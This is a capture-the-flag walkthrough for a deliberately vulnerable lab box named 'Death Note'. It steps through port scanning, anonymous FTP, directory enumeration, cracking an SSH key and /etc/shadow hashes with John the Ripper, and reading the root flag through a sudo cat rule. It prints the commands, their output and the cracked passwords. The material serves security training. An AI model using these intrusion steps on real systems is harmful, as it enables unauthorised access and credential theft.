




# Misc/Death Note




## Crack

### PORT Scan

```php
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            49 Aug 01 05:41 info.txt
| ftp-syst:                              
|   STAT:                                
| FTP server status:
|      Connected to ::ffff:10.8.56.33
|      Logged in as ftp
|      TYPE: ASCII                       
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status                          
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                           
|   2048 16:c4:7a:64:fc:07:9f:c7:1c:a1:6e:f2:3c:57:b3:89 (RSA)
|   256 1d:a4:c9:b6:3d:4c:e7:61:d7:7a:e0:d2:f5:fb:84:64 (ECDSA)
|_  256 43:c8:92:9b:02:4f:4f:e7:6a:38:9a:83:32:50:25:69 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:                          
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: BSidesNoida2021
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


### FTP - Anon login

```php
Connected to 10.10.4.58. 
220 (vsFTPd 3.0.3)                                                                
Name (10.10.4.58:kali): Anonymous                                                 
331 Please specify the password.                                                  
Password:                                                                         
230 Login successful.                                                             
Remote system type is UNIX.                                                       
Using binary mode to transfer files
ftp> ls                                  
200 PORT command successful. Consider using PASV.                                  
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            49 Aug 01 05:41 info.txt                   
226 Directory send OK.
    
ftp> get info.txt                        
local: info.txt remote: info.txt
200 PORT command successful. Consider using PASV.                                  
150 Opening BINARY mode data connection for info.txt (49 bytes).                   
226 Transfer complete.
49 bytes received in 0.00 secs (11.3392 kB/s)                                      
ftp> exit                                
221 Goodbye.    
```


##### INFO.TXT

```bash
┌──(kali㉿kali)-[~/Desktop/thm/aa]                             └─$ cat info.txt                         
you know how to find secret files :P                           Have Fun :)  
```


### WEB



#### Gobuster

```bash
===============================================================[2/89]
Gobuster v3.1.0           
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) 
===============================================================
[+] Url: http://10.10.4.58/
[+] Method:  GET              
[+] Threads: 10               
[+] Wordlist:wordlist.txt       
[+] Negative Status codes:   404              
[+] User Agent:              gobuster/3.1.0     
[+] Extensions:              php,html,txt       
[+] Timeout: 				 10s
===============================================================
2021/08/08 02:35:45 Starting gobuster in directory enumeration mode
===============================================================
/.hta.txt             (Status: 403) [Size: 275]
/.hta 				  (Status: 403) [Size: 275]
/.hta.php             (Status: 403) [Size: 275]
/.hta.html            (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 4173]
/index.html           (Status: 200) [Size: 4173]
/s3cr3t               (Status: 200) [Size: 63] 
/ryuk.apples          (Status: 200) [Size: 1766]
/robots.txt           (Status: 200) [Size: 17] 
/robots.txt           (Status: 200) [Size: 17] 
/robots.txt           (Status: 200) [Size: 17] 
/server-status        (Status: 403) [Size: 275]
           
===============================================================
2021/08/08 02:43:02 Finished
=============================================================== 
```

##### s3ce3t



##### ryuk.apples




#### Crack ssh

```php
/usr/share/john/ssh2john.py ryuk.apples > hash
```

```php
┌──(kali㉿kali)-[~/Desktop/thm/aa]
└─$ john --wordlist=wordlist.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after      
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status                      
l1ght1skir4      (ryuk.apples)
1g 0:00:00:00 DONE (2021-08-08 02:44) 100.0g/s 461400p/s 461400c/s 461400C/s zone..zt
Session completed  
```


**NB**: switched IP

#### IN SYSTEM - RYUK 

```php
└─$ ssh ryuk@10.10.224.158
The authenticity of host '10.10.224.158 (10.10.224.158)' can't be established.
ECDSA key fingerprint is SHA256:Bmpioj1qRH2jruaJiTKwwqJ5smOak/bvPhNPBB/Z35Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.224.158' (ECDSA) to the list of known hosts.
ryuk@10.10.224.158's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

715 packages can be updated.
450 updates are security updates.

Last login: Sun Aug  1 07:55:46 2021 from 192.168.35.135
$ ls -la
total 100
drwxr-xr-x 15 ryuk ryuk 4096 Aug  7 07:25 .
drwxr-xr-x  5 root root 4096 Aug  1 05:32 ..
-rw-r--r--  1 ryuk ryuk  220 Apr  4  2018 .bash_logout
-rw-r--r--  1 ryuk ryuk 3771 Apr  4  2018 .bashrc
drwx------ 10 ryuk ryuk 4096 Aug  7 07:27 .cache
drwx------ 11 ryuk ryuk 4096 Aug  7 07:26 .config
drwxr-xr-x  2 ryuk ryuk 4096 Aug  7 07:25 Desktop
drwxr-xr-x  2 ryuk ryuk 4096 Aug  7 07:25 Documents
drwxr-xr-x  2 ryuk ryuk 4096 Aug  7 07:25 Downloads
-rw-r--r--  1 ryuk ryuk 8980 Apr 16  2018 examples.desktop
drwx------  3 ryuk ryuk 4096 Aug  7 07:26 .gnupg
-rw-------  1 ryuk ryuk  318 Aug  7 07:25 .ICEauthority
drwxrwxr-x  3 ryuk ryuk 4096 Aug  1 01:41 .local
drwxr-xr-x  2 ryuk ryuk 4096 Aug  7 07:25 Music
-rw-r--r--  1 root root 2490 Aug  1 08:27 passwd
drwxr-xr-x  2 ryuk ryuk 4096 Aug  7 07:25 Pictures
-rw-r--r--  1 ryuk ryuk  807 Apr  4  2018 .profile
drwxr-xr-x  2 ryuk ryuk 4096 Aug  7 07:25 Public
-rw-------  1 ryuk ryuk    7 Aug  1 04:44 .python_history
-rw-r--r--  1 root root 1534 Aug  1 08:15 shadow
drwx------  2 ryuk ryuk 4096 Aug  1 07:53 .ssh
drwxr-xr-x  2 ryuk ryuk 4096 Aug  7 07:25 Templates
drwxr-xr-x  2 ryuk ryuk 4096 Aug  7 07:25 Videos
$ 

```


* *passwd and shadow looks suspious*

**Date of  passwd and shadow creation** - Aug 1 

```php
ryuk@ubuntu:~$ ls -la passwd shadow 
-rw-r--r-- 1 root root 2490 Aug  1 08:27 passwd
-rw-r--r-- 1 root root 1534 Aug  1 08:15 shadow
ryuk@ubuntu:~$ 
```

**System Creation** - Aug 1 

```bash
ryuk@ubuntu:~$ ls -la /etc/ssh/
total 596
drwxr-xr-x   2 root root   4096 Aug  1 03:06 .
drwxr-xr-x 124 root root  12288 Aug  7 07:57 ..
-rw-r--r--   1 root root 553122 Feb  9  2018 moduli
-rw-r--r--   1 root root   1580 Feb  9  2018 ssh_config
-rw-r--r--   1 root root   3264 Mar  4  2019 sshd_config
-rw-------   1 root root    227 Aug  1 03:06 ssh_host_ecdsa_key
-rw-r--r--   1 root root    173 Aug  1 03:06 ssh_host_ecdsa_key.pub
-rw-------   1 root root    399 Aug  1 03:06 ssh_host_ed25519_key
-rw-r--r--   1 root root     93 Aug  1 03:06 ssh_host_ed25519_key.pub
-rw-------   1 root root   1679 Aug  1 03:06 ssh_host_rsa_key
-rw-r--r--   1 root root    393 Aug  1 03:06 ssh_host_rsa_key.pub
-rw-r--r--   1 root root    338 Aug  1 03:06 ssh_import_id
ryuk@ubuntu:~$ 
```


##### CRACKING PASSWD FILE

```php
┌──(kali㉿kali)-[~/Desktop/thm/aa]
└─$ unshadow passwd shadow > hash

┌──(kali㉿kali)-[~/Desktop/thm/aa]
└─$ john --wordlist=wordlist.txt hash
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
    
MrBS1d3sGrepN0ida@!1337 (light)
l1ght1skir4      (ryuk)
    
Warning: Only 6 candidates left, minimum 8 needed for performance.
2g 0:00:00:14 DONE (2021-08-08 02:53) 0.1346g/s 310.7p/s 776.1c/s 776.1C/s zone..zt 
Use the "--show" option to display all of the cracked passwords reliably
Session completed

┌──(kali㉿kali)-[~/Desktop/thm/aa]
└─$ john hash --show  
ryuk:l1ght1skir4:1001:1001::/home/ryuk:/bin/sh
light:MrBS1d3sGrepN0ida@!1337:1002:1002::/home/light:/bin/sh
```


#### IN SYSTEM - LIGHT 

```php
ryuk@ubuntu:~$ su light
Password: 
$ bash
light@ubuntu:/home/ryuk$ cd
light@ubuntu:~$ id
uid=1002(light) gid=1002(light) groups=1002(light)
light@ubuntu:~$ 
```


#### PRIVILEGE ESCALATION

```php
light@ubuntu:~$ sudo -l
Matching Defaults entries for light on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User light may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
    
light@ubuntu:~$ sudo cat /root/root.txt
BSNoida{Pr1vEsc_w4a_E4sy_P3a5y}
light@ubuntu:~$ 
```

 